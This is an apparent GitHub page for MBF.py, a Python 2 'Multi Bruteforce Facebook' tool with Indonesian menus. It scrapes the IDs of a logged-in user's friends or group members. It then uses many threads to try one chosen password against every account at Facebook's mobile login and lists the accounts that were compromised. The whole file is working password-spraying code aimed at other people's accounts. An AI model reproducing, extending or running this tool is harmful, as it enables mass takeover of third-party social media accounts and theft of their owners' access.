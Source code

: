 Code  Issues 4  Pull requests 2  Projects 0  Wiki  Pulse  Community
MBF.py

import platform,os,sys
def cetak(x,e=0):
	w = 'mhkbpcP'
	for i in w:
		j = w.index(i)
		x= x.replace('!%s'%i,'\033[%s;1m'%str(31+j))
	x += '\033[0m'
	x = x.replace('!0','\033[0m')
	if e != 0:
		sys.stdout.write(x)
	else:
		sys.stdout.write(x+'\n')
if platform.python_version().split('.')[0] != '2':
	cetak('!m[!] Kamu menggunakan python versi %s silahkan menggunakan versi 2.x.x'%v().split(' ')[0])
	sys.exit()
import cookielib,re,urllib2,urllib,threading
try:
  import mechanize
except ImportError:
	cetak('!m[!] SepertiNya Module !cmechanize!m belum di install...\n!h[!] pip2 install mechanize')
	sys.exit()
br = 0
log = 0
id_bteman = []
id_bgroup = []
fid_bteman = []
fid_bgroup = []
class mt(threading.Thread):
	def __init__(self,i,p):
		threading.Thread.__init__(self)
		self.id = i
		self.a = 0
		self.p = p
	def update(self):
		return self.a,self.id
	def run(self):
		try:
			data = urllib2.urlopen(urllib2.Request(url='https://m.facebook.com/login.php',data=urllib.urlencode({'email':self.id,'pass':self.p}),headers={'User-Agent':'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16'}))
		except KeyboardInterrupt:
			sys.exit()
		except:
			self.a = 4
			sys.exit()
		if 'm_sess' in data.url or 'save-device' in data.url:
			self.a = 1
		elif 'checkpoint' in data.url:
			self.a = 2
		else:
			self.a = 3
def crack(d):
	while 1:
		s = inputD('[?] Sandi')
		if len(s) < 6:
			cetak('!m[!] Jumlah huruf minimal !k6')
		else:
			break
	return crack0(d,s)
def tampilhasil(akun,sandi,data):
	cekpoint = []
	salah = 0
	berhasil = []
	for i in akun:
		st,id = i
		if st == 1:
			berhasil.append(id)
		elif st == 2:
			cekpoint.append(id)
		elif st == 3:
			salah += 1
	cetak('!h[*] Berhasil !c%d'%len(berhasil))
	if len(berhasil) != 0:
		for i in berhasil:
			cetak('!h### !p%s !m=> !b[!k%s!b]'%(i,sandi))
	cetak('!k[*] Cekpoint !c%d'%len(cekpoint))
	if len(cekpoint) != 0:
		for i in cekpoint:
			cetak('!k### !p%s !m=> !b[!k%s!b]'%(i,sandi))
	cetak('!m[*] Gagal    !c'+str(salah))
	i = inputD('[?] Tidak Puas dengan Hasil,Mau coba lagi (y/t)',['Y','T'])
	if i.upper() == 'Y':
		return crack(data)
	else:
		return menu()
def crack0(data,sandi):
	akun = []
	cetak('!h[*] MengCrack !k%d Akun !hdengan sandi !m[!k%s!m]'%(len(data),sandi))
	cetak('!h[*] Cracking  !k0!m%',1)
	sys.stdout.flush()
	jml0,jml1 = 0,0
	th = []
	for i in data:
		i = i.replace(' ','')
		i = i.replace('\n','')
		if len(i) != 0:th.append(mt(i,sandi))
		jml1 += 1
	for i in th:
		i.daemon = True
		try:i.start()
		except KeyboardInterrupt:exit()
	h_error = []
	error = 0
	while 1:
		try:
			for i in th:
				status,id = i.update()
				if status != 0:
					cetak('\r!h[*] Cracking  !k%d!m%s!0'%(int(float((float(jml0)/float(jml1))*100)),'%'),1)
					sys.stdout.flush()
					del(th[th.index(i)])
					if status == 4:
						h_error.append(id)
						if h_error.count(id) == 3:
							pass
						else:
							th.append(mt(id,sandi))
							th[len(th)-1].daemon = True
							th[len(th)-1].start()
					else:
						jml0 += 1
						akun.append((status,id))
		except KeyboardInterrupt:
			sys.exit()
		try:
			if threading.activeCount() == 1:break
		except KeyboardInterrupt:
			keluar()
	cetak('\r!h[*] Cracking  !k100!m%      ')
	tampilhasil(akun,sandi,data)
def install_browser():
	global br
	br = mechanize.Browser()
	br.set_handle_robots(False)
	br.set_handle_equiv(True)
	br.set_handle_referer(True)
	br.set_cookiejar(cookielib.LWPCookieJar())
	br.set_handle_redirect(True)
	br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
	br.addheaders = [('User-Agent','Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]
def bacaData():
	global fid_bgroup,fid_bteman
	try:
		fid_bgroup = open(os.sys.path[0]+'/MBFgroup.txt','r').readlines()
	except:pass
	try:
		fid_bteman = open(os.sys.path[0]+'/MBFteman.txt','r').readlines()
	except:pass
def simpan():
	if len(id_bgroup) != 0:
		cetak('!h[*] Menyimpan hasil dari Group')
		try:
			open(os.sys.path[0]+'/MBFgroup.txt','w').write('\n'.join(id_bgroup))
			cetak('!h[!] Berhasil meyimpan !cMBFgroup.txt')
		except:
			cetak('!m[!] Gagal meyimpan')
	if len(id_bteman) != 0:
		cetak('!h[*] Menyimpan hasil daftar Teman...')
		try:
			open(os.sys.path[0]+'/MBFteman.txt','w').write('\n'.join(id_bteman))
			cetak('!h[!] Berhasil meyimpan !cMBFteman.txt')
		except:
			cetak('!m[!] Gagal meyimpan')
def keluar():
	simpan()
	cetak('!m[!] Keluar')
	sys.exit()
def inputD(x,v=0):
	while 1:
		try:
			a = raw_input('\x1b[32;1m%s\x1b[31;1m:\x1b[33;1m'%x)
		except:
			cetak('\n!m[!] Batal')
			keluar()
		if v:
			if a.upper() in v:
				break
			else:
				cetak('!m[!] Masukan Opsinya Bro...')
				continue
		else:
			if len(a) == 0:
				cetak('!m[!] Masukan dengan benar')
				continue
			else:
				break
	return a
def inputM(x,d):
	while 1:
		try:
			i = int(inputD(x))
		except:
			cetak('!m[!] Pilihan tidak ada')
			continue
		if i in d:
			break
		else:
			cetak('!m[!] Pilihan tidak ada')
	return i
def lanjutG():
	global fid_bgroup
	if len(fid_bgroup) != 0:
		i = inputD('[?] Riset Hasil Id Group/lanjutkan (r/l)',['R','L'])
		if i.upper() == 'L':
			return crack(fid_bgroup)
		else:
			os.remove(os.sys.path[0]+'/MBFgroup.txt')
			fid_bgroup = []
	return 0
def lanjutT():
	global fid_bteman
	if len(fid_bteman) != 0:
		i = inputD('[?] Riset Hasil Id Teman/lanjutkan (r/l)',['R','L'])
		if i.upper() == 'L':
			return crack(fid_bteman)
		else:
			os.remove(os.sys.path[0]+'/MBFteman.txt')
			fid_bteman = []
	return 0
def buka(d):
	try:
		x = br.open(d)
		br._factory.is_html = True
		x = x.read()
	except:
		cetak('\r!m[!] Gagal membuka !p'+str(d))
		keluar()
	if '<link rel="redirect" href="' in x:
		return buka(br.find_link().url)
	else:
		return x
def login():
	global log
	us = inputD('[?] Email/HP')
	pa = inputD('[?] Kata Sandi')
	cetak('!h[*] Sedang Login....')
	buka('https://m.facebook.com')
	br.select_form(nr=0)
	br.form['email']=us
	br.form['pass']=pa
	br.submit()
	url = br.geturl()
	if 'save-device' in url or 'm_sess' in url:
		buka('https://mobile.facebook.com/home.php')
		nama = br.find_link(url_regex='logout.php').text
		nama = re.findall(r'\((.*a?)\)',nama)[0]
		cetak('!h[*] Selamat datang !k%s'%nama)
		cetak('!h[*] Semoga ini adalah hari keberuntungan mu...')
		log = 1
	elif 'checkpoint' in url:
		cetak('!m[!] Akun kena checkpoint\n!k[!]Coba Login dengan opera mini')
		keluar()
	else:
		cetak('!m[!] Login Gagal')
def idgroup():
	if log != 1:
		cetak('!h[*] Login !bFB!h dulu bos...')
		login()
		if log == 0:
			keluar()
	next = saring_id_group0()
	while 1:
		saring_id_group1(buka(next))
		try:
			next = br.find_link(url_regex='/browse/group/members/').url
		except:
			cetak('!m[!] Hanya Bisa Mengambil !h %d id'%len(id_bgroup))
			break
	simpan()
	i = inputD('[?] Langsung Crack (y/t)',['Y','T'])
	if i.upper() == 'Y':
		return crack(id_bgroup)
	else:
		return menu()
def saring_id_teman(r):
	for i in re.findall(r'/friends/hovercard/mbasic/\?uid=(.*?)&',r):
		id_bteman.append(i)
def idteman():
	if log != 1:
		cetak('!h[*] Login !bFB !hdulu bos...')
		login()
		if log == 0:
			keluar()
	cetak('!h[*] Sedang mengumpulkan id teman...')
	buka('https://m.facebook.com/friends/center/mbasic/?fb_ref=bm&sr=1&ref_component=mbasic_bookmark&ref_page=XMenuController')
	jumlah = br.find_link(url_regex='/friends/center/friends/').text
	jumlah = re.findall(r'\((.*a?)\)',jumlah)[0]
	cetak('!h[*] Mengambil !p%s !hid teman'%jumlah) 
	saring_id_teman(buka('https://m.facebook.com/friends/center/friends/?fb_ref=fbm&ref_component=mbasic_bookmark&ref_page=XMenuController'))
	try:
		next = br.find_link(url_regex='friends_center_main').url
	except:
		if len(id_teman) != 0:
			cetak('!m[!] Hanya dapat mengambil !p%d id'%len(id_bteman))
		else:
			cetak('!m[!] Batal')
			keluar()
	while 1:
		saring_id_teman(buka(next))
		cetak('\r!h[*] !p%s !hid terambil...'%len(id_bteman),1)
		sys.stdout.flush()
		try:
			next = br.find_link(url_regex='friends_center_main').url
		except:
			cetak('\n!m[!] Hanya dapat mengambil !p%d id'%len(id_bteman))
			break
	simpan()
	i = inputD('[?] Langsung Crack (y/t)',['Y','T'])
	if i.upper() == 'Y':
		return crack(id_bteman)
	else:
		return menu()
def menu():
	cetak("\n           !h.-.-..\n          /+/++//\n         /+/++//\n  !k*   !k* !h/+/++//\n   \ /  |/__//\n !h{!mX!h}v{!mX!h}!0!b|!cMBF!b|==========.\n   !h(!m'!h)!0  !h/'|'\           !b\\\n       !h/  \  \          !b'\n       !h\_  \_ \_   !k___!mMBF !c2.0!k___\n\n !m* !bMULTI BRUTEFORCE FACEBOOK\n !m* !cPIRMANSX\n !m* !phttps://github.com/pirmansx\n !m* !phttps://facebook.com/groups/164201767529837\n !m* !phttps://pirmansx.waper.com\n!k.======================.\n|!h  AMBIL !mID!h DARI.....  !k|\n'======================'\n!k#!p1 !hDAFTAR TEMAN\n!k#!p2 !hANGGOTA GROUP\n!k#!p3 !mKELUAR...")
	i = inputM('[?] PILIH',[1,2,3])
	if i == 2:
		lanjutG()
		idgroup()
	elif i == 1:
		lanjutT()
		idteman()
	elif i == 3:
		keluar()
bacaData()
install_browser()
menu()
#
#
#

